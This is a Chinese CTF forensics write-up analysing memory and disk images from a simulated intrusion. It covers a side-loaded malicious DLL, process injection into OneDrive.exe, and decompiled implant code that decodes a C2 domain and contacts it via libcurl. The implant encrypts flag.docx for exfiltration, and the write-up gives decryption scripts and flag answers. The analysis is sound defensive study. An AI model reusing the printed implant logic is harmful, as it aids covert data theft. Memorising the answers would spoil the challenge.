


2024 长城杯 & 国赛 初赛 威胁检测与网络流量分析 sc05

官方 writeup 未公布，无标准答案

<!-- truncate -->

:::info

近日某公司网络管理员老张在对安全设备进行日常巡检过程中发现防火墙设备日志中产生了 1 条高危告警，告警 IP 为 134.6.4.12 (简称 IP1)，在监测到可疑网络活动后，老张立刻对磁盘和内存制做了镜像。为考校自己刚收的第一个徒弟李华，老张循序渐进，布置了 5 道问题。假如你是李华，请你根据提供的防火墙日志、磁盘镜像及内存镜像文件对主机开展网络安全检查分析，并根据 5 道问题提示，计算并提交相应 flag。

:::

## 致谢

感谢以下各位师傅没有嫌弃我烦人，并对我提供帮助

- Tokeii
-

## First of all

启动 `MemProcFS`

```bash
PS D:\_Tools\MemProcFS_files_and_binaries_v5.13.3-win_x64-20241218> .\memprocfs.exe  -license-accept-elastic-license-2-0 -f "D:\Downloads\38c44f100028b56e09dc48522385fa95\附件\内存\Windows 10 x64-Snapshot13.vmem" -forensic 1
DEVICE: WARN: No VMware memory regions located - file will be treated as single-region.
Initialized 64-bit Windows 10.0.19045

==============================  MemProcFS  ==============================
 - Author:           Ulf Frisk - pcileech@frizk.net
 - Info:             https://github.com/ufrisk/MemProcFS
 - Discord:          https://discord.gg/pcileech
 - License:          GNU Affero General Public License v3.0
   ---------------------------------------------------------------------
   MemProcFS is free open source software. If you find it useful please
   become a sponsor at: https://github.com/sponsors/ufrisk Thank You :)
   ---------------------------------------------------------------------
 - Version:          5.13.3 (Windows)
 - Mount Point:      M:\
 - Tag:              19045_7c025429
 - Operating System: Windows 10.0.19045 (X64)
==========================================================================

[FORENSIC] Forensic mode completed in 12s.
```

## 1

> IP1 地址首次被请求时间是多久？计算内容如：`2020/05/18_19:35:10` 提交格式：`flag{32位大写MD5值}`

题目附件提供了 `firewall.xlsx` 防火墙日志数据，直接搜索就好


可以发现，建立 TCP 连接的时间要早于 HTTP 连接，所以答案是建立 TCP 连接的时间

```flag
flag{MD5(2024/11/09_16:22:42)}
flag{01DF5BC2388E287D4CC8F11EA4D31929}
```

## 2

> IP1 地址对应的小马程序 MD5 是多少？提交格式：`flag{32位大写MD5值}`

在`admin`用户的桌面发现一个`HRSw​ord.​lnk`快捷方式

跳转到`Root\Users\admin\AppData\Roaming\HRSword5-green\HRSword.exe`

> 这不是很明显嘛，谁家可执行文件放Appdata目录

将`HRSword5-green`文件夹导出进行分析，发现一众`dll`文件中，就`uactmon.dll`没有数字签名，这一点很可疑

在本地对`Func_1`函数进行分析


下个断点，动调看一下


即可确定`uactmon.dll`是小马，采用的是白加黑的对抗方式

```bash
PS D:\Desktop\HRSword5-green> get-FileHash -Algorithm MD5 .\uactmon.dll

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             AE68F576C8671A9A32CDD33FBE483778                                       D:\Desktop\HRSword5-green\uactm…
```

```flag
flag{MD5(uactmon.dll)}
flag{AE68F576C8671A9A32CDD33FBE483778}
```

## 3

> 大马程序运行在哪个进程中？计算内容：`PID-进程名`，如 `123-cmd.exe` 提交格式：`flag{32位大写MD5值}`

首先，这个题目的表述就很有意思，表达为`在哪个进程中`而不是`是哪个进程`

有过相关渗透经验和免杀经验的师傅，应该就能反应过来，这个其实就是在暗示，存在有进程注入

[Process Injection, Technique T1055 - Enterprise | MITRE ATT\&CK®](https://attack.mitre.org/techniques/T1055/)

进程注入这里，本身 `Volatility3` 提供了 [windows.malfind](https://volatility3.readthedocs.io/en/latest/volatility3.plugins.windows.malfind.html#volatility3.plugins.windows.malfind.Malfind) 插件实现了注入代码的检测，同时 `MemProcFS` 也提供了 [findevil](https://github.com/ufrisk/MemProcFS/wiki/FS_FindEvil) 实现对恶意软件的检测

使用 Volatility3 进行分析

```bash
PS D:\Downloads\38c44f100028b56e09dc48522385fa95\附件\内存> vol -f '.\Windows 10 x64-Snapshot13.vmem' windows.malfind
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished
PID     Process Start VPN       End VPN Tag     Protection      CommitCharge    PrivateMemory   File output     Notes  Hexdump  Disasm
......
5392    OneDrive.exe    0x8d20000       0x8d2afff       VadS    PAGE_EXECUTE_READWRITE  11      1       Disabled        MZ header
4d 5a 90 00 03 00 00 00 MZ......
04 00 00 00 ff ff 00 00 ........
b8 00 00 00 00 00 00 00 ........
40 00 00 00 00 00 00 00 @.......
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 08 01 00 00 ........
0x8d20000:      dec     ebp
0x8d20001:      pop     edx
0x8d20002:      nop
0x8d20003:      add     byte ptr [ebx], al
0x8d20005:      add     byte ptr [eax], al
0x8d20007:      add     byte ptr [eax + eax], al
0x8d2000a:      add     byte ptr [eax], al
```

很明显，注入了一个可执行的数据段，大概率是一份 dll

同时使用 `MemProcFS` 进行分析

```plaintext title="\forensic\findevil\findevil.txt"
......
0002   5392 OneDrive.exe   PE_INJECT       0000000008d20000 Module:[0x8d20000.dll]
```

那就很明显了，常规进程根本不会使用注入来实现 dll 加载，基本可以断定有针对 `5392-OneDrive.exe` 的注入攻击行为

```flag
flag{MD5(5392-OneDrive.exe)}
flag{B3DCB206180679E29468726C27FC1A68}
```

## 4

> 大马程序备用回连的域名是多少？计算内容如：`www.baidu.com` 提交格式：`flag{32位大写MD5值}`

对上一题，在 `5392-OneDrive.exe` 进程中发现的注入行为，将注入的 dll 数据提取出来

对于 `Volatility3` 提取注入的 dll 文件

```bash
PS D:\Downloads\38c44f100028b56e09dc48522385fa95\附件\内存> vol -f '.\Windows 10 x64-Snapshot13.vmem' windows.malfind --pid 5392 --dump
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished
PID     Process Start VPN       End VPN Tag     Protection      CommitCharge    PrivateMemory   File output     Notes  Hexdump  Disasm

5392    OneDrive.exe    0x8d20000       0x8d2afff       VadS    PAGE_EXECUTE_READWRITE  11      1       pid.5392.vad.0x8d20000-0x8d2afff.dmp    MZ header
4d 5a 90 00 03 00 00 00 MZ......
04 00 00 00 ff ff 00 00 ........
b8 00 00 00 00 00 00 00 ........
40 00 00 00 00 00 00 00 @.......
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 08 01 00 00 ........
0x8d20000:      dec     ebp
0x8d20001:      pop     edx
0x8d20002:      nop
0x8d20003:      add     byte ptr [ebx], al
0x8d20005:      add     byte ptr [eax], al
0x8d20007:      add     byte ptr [eax + eax], al
0x8d2000a:      add     byte ptr [eax], al
```

对于 `MemProcFS` 而言，文件位于 `\pid\5392\modules\_INJECTED-0x8d20000.dll\pefile.dll`

`Volatility3` 和 `MemProcFS` 两个框架所提取出来的 dll 数据是存在有差异的



`MemProcFS` 框架所提取出来的 `pefile.dll` 文件，由于经过了重组，导致符号表信息丢失，建议使用 `Volatility3` 导出的 `pid.5392.vad.0x8d20000-0x8d2afff.dmp` 文件

使用 `IDA` 对 `pid.5392.vad.0x8d20000-0x8d2afff.dmp` 文件的 `DllMain` 函数进行分析


对反编译结果进行分析后，批注过的反编译结果

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    // ......

    v21 = fdwReason;
    if ( fdwReason == 1 )
    {
        Buffer = 0;
        BufferCount = 0;
        v19 = dupenv_s(&Buffer, &BufferCount, "appdata");// 读取 appdata 目录
        v22 = (char *)unknown_libname_12(BufferCount + 16);
        v40 = v22;

        Str[0] = 48;
        Str[1] = 7;
        Str[2] = 18;
        Str[3] = 2;
        Str[4] = 48;
        Str[5] = 19;
        Str[6] = 95;
        Str[7] = 1;
        Str[8] = 8;
        qmemcpy(v63, "X$^j", sizeof(v63));
        for ( i = 0; i < 0xD; ++i )
            Str[i] ^= 0x6Au;                    // 异或解码
                                                // 最终得到 flag.docx
        memset(v52, 0, sizeof(v52));
        v3 = strlen(Str);
        base64_decode((int)Str, v3, (int)v52);  // sub_10001860

        sprintf_s(v40, BufferCount + 16, "%s/%s", Buffer, v52);
        v43 = 0;
        v45 = 0;
        v18 = dupenv_s(&v43, &v45, "temp");
        v23 = (char *)unknown_libname_12(v45 + 16);
        v39 = v23;

        qmemcpy(v60, "9X ", 3);
        v60[3] = 29;
        v60[4] = 56;
        v60[5] = 46;
        v60[6] = 59;
        v60[7] = 94;
        v60[8] = 38;
        v60[9] = 4;
        v60[10] = 56;
        v60[11] = 30;
        qmemcpy(v61, "\t+WW", sizeof(v61));
        for ( j = 0; j < 0x10; ++j )
            v60[j] ^= 0x6Au;                    // 异或解码
                                                // 最终得到 KbpD48.tmp
        memset(v53, 0, sizeof(v53));
        v4 = strlen(v60);
        base64_decode((int)v60, v4, (int)v53);

        sprintf_s(v39, v45 + 16, "%s/%s", v43, v53);

        v56[0] = 11;
        v56[1] = 34;
        v56[2] = 56;
        v56[3] = 90;
        v56[4] = 9;
        v56[5] = 46;
        v56[6] = 5;
        v56[7] = 28;
        v56[8] = 38;
        v56[9] = 89;
        v56[10] = 14;
        v56[11] = 89;
        v56[12] = 14;
        v56[13] = 19;
        v56[14] = 95;
        v56[15] = 5;
        v56[16] = 9;
        v56[17] = 4;
        v56[18] = 60;
        v56[19] = 29;
        v56[20] = 48;
        v56[21] = 45;
        v56[22] = 44;
        v56[23] = 90;
        v56[24] = 48;
        v56[25] = 57;
        v56[26] = 95;
        v56[27] = 31;
        qmemcpy(v57, "02;W", sizeof(v57));
        for ( k = 0; k < 0x20; ++k )
            v56[k] ^= 0x6Au;                    // 异或解码
                                                // 最终得到 http://www.hrupdate.net
        v58[0] = 11;
        v58[1] = 34;
        v58[2] = 56;
        v58[3] = 90;
        v58[4] = 9;
        v58[5] = 46;
        v58[6] = 5;
        v58[7] = 28;
        v58[8] = 38;
        v58[9] = 89;
        v58[10] = 14;
        v58[11] = 89;
        v58[12] = 14;
        v58[13] = 19;
        v58[14] = 95;
        v58[15] = 4;
        v58[16] = 8;
        v58[17] = 89;
        v58[18] = 60;
        v58[19] = 29;
        v58[20] = 48;
        v58[21] = 45;
        v58[22] = 44;
        v58[23] = 90;
        v58[24] = 48;
        v58[25] = 57;
        v58[26] = 95;
        v58[27] = 31;
        qmemcpy(v59, "02;W", sizeof(v59));
        for ( m = 0; m < 0x20; ++m )
            v58[m] ^= 0x6Au;                    // 异或解码
                                                // 最终得到 http://www.hrupdate.net
        memset(v54, 0, sizeof(v54));
        memset(v55, 0, sizeof(v55));
        v5 = strlen(v56);
        base64_decode((int)v56, v5, (int)v54);
        v6 = strlen(v58);
        base64_decode((int)v58, v6, (int)v55);
        while ( 1 )
        {
            // ......
        }
    }
    return 1;
}
```

其中的异或 + Base64 解码，可以参考以下脚本的实现

```python
from base64 import b64decode

decompiled_code = """
Str[0] = 48;
Str[1] = 7;
Str[2] = 18;
Str[3] = 2;
Str[4] = 48;
Str[5] = 19;
Str[6] = 95;
Str[7] = 1;
Str[8] = 8;
"""

data = [i.split(";")[0].split(" = ")[1] for i in decompiled_code.strip().split("\n")]
for i in "X$^j":
    data.append(str(ord(i)))
data = [int(i) ^ 0x6A for i in data]
b64encoded_data = "".join([chr(i) for i in data])
data = b64decode(b64encoded_data)
print(data.decode())
```

即可得到回连的域名为 `http://www.hrupdate.net`

```flag
flag{MD5(http://www.hrupdate.net)}
flag{46A5F85E24C4EB95DC9F9FAED5E7AF6A}
```

## 5

> 攻击者最终窃取数据的文件中包含的 flag 值？ 提交格式：`flag{xxx}`, 注意大小 `FLAG{xx}` 要转换为小写 `flag{xx}`

上文解密得到的文件名中，文件位于 `Root\Users\admin\AppData\Local\Temp\KbpD48.tmp`


忽略掉前面已分析部分，进入到 `while ( 1 )` 循环中

```c
while ( 1 )
{
    sub_10004350(v13, v14);
    v64 = 0;
    v33 = v54;
    v30 = sub_10001B00(v54, v51);
    if ( v30 )
    {
        v33 = v55;
        sub_10004190(v51);
        v30 = sub_10001B00(v33, v51);
    }
    if ( !v30 && sub_10004110("Get file", 0) != -1 )
    {
        sub_100026B0(0xB8u);
        sub_10004000(v40, 33, 64, 1);
        LOBYTE(v64) = 1;
        if ( (unsigned __int8)sub_10003F60(v47) )
        {
            sub_100026B0(0xB0u);
            sub_10003190(v39, 34, 64, 1);
            LOBYTE(v64) = 2;
            if ( (unsigned __int8)sub_10003110(v48) )
            {
                sub_100026B0(0xB0u);
                sub_10003030(1);
                LOBYTE(v64) = 3;
                v7 = sub_10003F80(v47);
                std::ostream::operator<<(v50, v7);
                v24 = std::basic_stringstream<char,std::char_traits<char>,std::allocator<char>>::str(v16);
                v31 = unknown_libname_4(v24);
                sub_100042B0(v16);
                v20 = (char *)unknown_libname_12(2 * v31 + 2);
                v41 = v20;
                memset(v20, 0, 2 * v31 + 2);
                v27 = std::basic_stringstream<char,std::char_traits<char>,std::allocator<char>>::str(v15);
                v26 = v27;
                LOBYTE(v64) = 4;
                v12 = v41;
                v11 = v31;
                v8 = sub_10004170(v27);
                v28 = sub_10001650(v8, v11, v12);
                LOBYTE(v64) = 3;
                sub_100042B0(v15);
                qmemcpy(v32, ";=", 2);
                v32[2] = -2;
                v32[3] = 112;
                v32[4] = 90;
                v32[5] = -41;
                v32[6] = -116;
                v32[7] = 34;
                v32[8] = -64;
                v32[9] = 109;
                v32[10] = -76;
                v32[11] = -40;
                v32[12] = 87;
                v32[13] = 114;
                v32[14] = -33;
                v32[15] = -41;
                v32[16] = 55;
                v32[17] = 114;
                v32[18] = -45;
                v32[19] = 127;
                v32[20] = -37;
                v32[21] = 51;
                v32[22] = -119;
                v32[23] = 31;
                v32[24] = -5;
                v32[25] = -10;
                v32[26] = 97;
                v32[27] = 94;
                v32[28] = 18;
                v32[29] = 6;
                v32[30] = -98;
                v32[31] = 21;
                for ( n = 0; n < v28; ++n )
                {
                    v38 = 0;
                    if ( n % 3 )
                    {
                        if ( n % 5 )
                        {
                            if ( n % 7 )
                                v38 = n % 0x20;
                            else
                                v38 = 3 * n % 0x20;
                        }
                        else
                        {
                            v38 = (2 * n + 1) % 0x20;
                        }
                    }
                    else
                    {
                        v38 = 2 * n % 0x20;
                    }
                    v41[n] ^= (int)(unsigned __int8)v32[v38] >> (v38 % 6);
                }
                std::ostream::write(v48, v41, v28, 0);
                v17 = &v10;
                sub_100042D0(v41);
                sub_100019F0(v33, v51, v10);
                Block = v41;
                j_j_free(v41);
                if ( Block )
                {
                    v41 = (char *)33059;
                    v25 = 33059;
                }
                else
                {
                    v25 = 0;
                }
                LOBYTE(v64) = 2;
                sub_10002700(v49);
            }
            LOBYTE(v64) = 1;
            sub_100026D0(v48);
        }
        LOBYTE(v64) = 0;
        sub_10002680(v47);
    }
    Sleep(0x493E0u);
    v64 = -1;
    sub_100042B0(v51);
}
```

直接上动态调试，将那几个 if 判断全部无效化，进入到后续的 flag 加密部分

动态调试的话，需要注意到 `sub_10001B00` 函数

```c
int __cdecl sub_10001B00(int a1, int a2)
{
    int v2; // eax
    int v4; // [esp+0h] [ebp-8h]
    int v5; // [esp+4h] [ebp-4h]

    v4 = 0;
    v5 = curl_easy_init();
    if ( v5 )
    {
        curl_easy_setopt(v5, 10002, a1);
        curl_easy_setopt(v5, 52, 1);
        curl_easy_setopt(v5, 10001, a2);
        curl_easy_setopt(v5, 64, 0);
        curl_easy_setopt(v5, 81, 0);
        curl_easy_setopt(v5, 20011, sub_100019D0);
        v4 = curl_easy_perform(v5);
        if ( v4 )
        {
            v2 = sub_100056A0(std::cerr, "payload exec Fail");
            std::ostream::operator<<(v2, sub_10005990);
        }
        curl_easy_cleanup(v5);
    }
    return v4;
}
```

动态调试，可以在 IDA 中，使用 `rundll32.exe` 来实现调试


需要注意的是，由于大马的运行依赖 libcurl 库，建议从 `vmdk` 检材的 `Root\Documents and Settings\admin\AppData\Roaming\HRSword5-green\libcurl.dll` 中提取出来，以免动调过程中出现缺少依赖库的报错

一步一步跟进下去

解密 `flag.docx` 路径


解密临时文件路径


解密反连域名


为了处理大马连接服务器的行为，可能会想着在本地的 `hosts` 文件进行接管 `www.hrupdate.net` 的解析到本地，但是接管会无效，可能是由于 `libcurl` 其本身机制影响，还是直接处理 if 部分比较好

需要处理的是下图的红框部分


反汇编界面没办法进行 patch 操作，进入汇编界面


分情况来看，取决于 if 的结构，可以尝试直接 `nop` 掉，也可以尝试 `Force Jump`


将这部分的 if 判断处理掉 (主要是服务器请求的这些判断) 之后，就可以继续向下跟进

然后就是对 `flag.docx` 进行读取



在加密之前，变量 `v43` 储存的是 `flag.docx` 读取到的数据

:::warning

经过漫长的碰壁和自我怀疑之后

:::

静态分析也可以，这一块的加密不是很复杂，就是异或的 key 是根据长度动态的而已

动态也可以，不过是按 3、5、7 倍数的关系进行逻辑分支

自我折磨了，不要想着用 Python 来编写所有脚本，逆向应该回归 c 的本质 (不想回归汇编是这样的)

> 这一题没有那么难
>
> 所有的逻辑都是明面上的，无论是 Base64 编解码，还是异或，还是中间的 key 数据，都是直接给出的
>
> 没有反调试，没有反沙箱，没有任何对抗手段
>
> 中间的逻辑跳过有点折磨，但是并非 nop 不掉，或者改 jmp 跳不过去的
>
> 唯一的困难，是相信自己能做出来

完整的解密脚本如下

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main()
{
    char v34[32];
    memcpy(v34, ";=", 2);
    v34[2] = -2;
    v34[3] = 112;
    v34[4] = 90;
    v34[5] = -41;
    v34[6] = -116;
    v34[7] = 34;
    v34[8] = -64;
    v34[9] = 109;
    v34[10] = -76;
    v34[11] = -40;
    v34[12] = 87;
    v34[13] = 114;
    v34[14] = -33;
    v34[15] = -41;
    v34[16] = 55;
    v34[17] = 114;
    v34[18] = -45;
    v34[19] = 127;
    v34[20] = -37;
    v34[21] = 51;
    v34[22] = -119;
    v34[23] = 31;
    v34[24] = -5;
    v34[25] = -10;
    v34[26] = 97;
    v34[27] = 94;
    v34[28] = 18;
    v34[29] = 6;
    v34[30] = -98;
    v34[31] = 21;

    FILE *fp = fopen("KbpD48.tmp", "r");
    if (fp == NULL)
    {
        printf("Error opening file\n");
        return 1;
    }
    // 读取文件内容到 v43 数组
    char *v43;
    fseek(fp, 0, SEEK_END);
    long fileSize = ftell(fp);
    fseek(fp, 0, SEEK_SET);
    v43 = (char *)malloc(fileSize + 1);
    if (v43 == NULL)
    {
        printf("Memory allocation failed\n");
        fclose(fp);
        return 1;
    }
    fread(v43, 1, fileSize, fp);
    v43[fileSize] = '\0'; // 确保字符串以 null 结尾
    fclose(fp);

    // 计算 v43 长度
    long v30 = fileSize;
    for (long n = 0; n < v30; ++n)
    {
        int v40 = 0;
        if (n % 3)
        {
            if (n % 5)
            {
                if (n % 7)
                    v40 = n % 0x20;
                else
                    v40 = 3 * n % 0x20;
            }
            else
            {
                v40 = (2 * n + 1) % 0x20;
            }
        }
        else
        {
            v40 = 2 * n % 0x20;
        }
        v43[n] ^= v34[v40] >> (v40 % 6);
    }
    // printf("%s\n", v43);
    // 将 v43 内容写入文件
    FILE *fp2 = fopen("flag.docx", "w");
    if (fp2 == NULL)
    {
        printf("Error opening file for writing\n");
        free(v43);
        return 1;
    }
    fwrite(v43, 1, v30, fp2);
    fclose(fp2);
    free(v43);
}
```

即可踏出最后的一步


```flag
FLAG{8474hj[fhh_87fp4520+_7rq4563}
```

> 幸好我一直没有放弃。
